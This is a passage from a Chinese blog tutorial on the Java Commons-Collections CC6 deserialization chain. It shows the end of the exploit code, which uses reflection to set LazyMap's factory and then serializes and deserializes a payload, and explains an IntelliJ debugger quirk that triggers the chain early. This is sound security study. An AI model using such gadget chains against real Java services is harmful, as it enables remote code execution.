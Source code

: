 ```
  
        Class c = LazyMap.class;  
        Field fieldfactory = c.getDeclaredField("factory");  
        fieldfactory.setAccessible(true);  
        fieldfactory.set(lazymap,chainedTransformer);  
        serialize(map2);  
        unserialize("ser.bin");  
  
    }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        oos.writeObject(obj);  
    }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
        Object obj = ois.readObject();  
        return obj;  
        }  
  
}
```

## 0x04 解决前文的小坑

- 还记得前文中我说的这个问题吗

> “
> 这里在 25 行，也就是 `HashMap<Object, Object> expMap = new HashMap<>();` 这里打断点，会发现直接 24 行就弹计算器了，不要着急，这里是一个 IDEA 的小坑，后续会讲。
> ”

#### 原因分析

因为在 IDEA 进行 debug 调试的时候，为了展示对象的集合，会自动调用 `toString()` 方法，所以在创建 `TiedMapEntry` 的时候，就自动调用了 `getValue()` 最终将链子走完，然后弹出计算器。

#### 解决

![img](https://drun1baby.top/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/toStringAuto.png)

在 IDEA 的偏好设置当中如图修改即可。

![img](https://drun1baby.top/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/toStringForbid.png)

## 0x05 小结

- 老样子，我们还是需要画个流程图总结一下链子。

先像 ysoserial 那样，写一个利用表
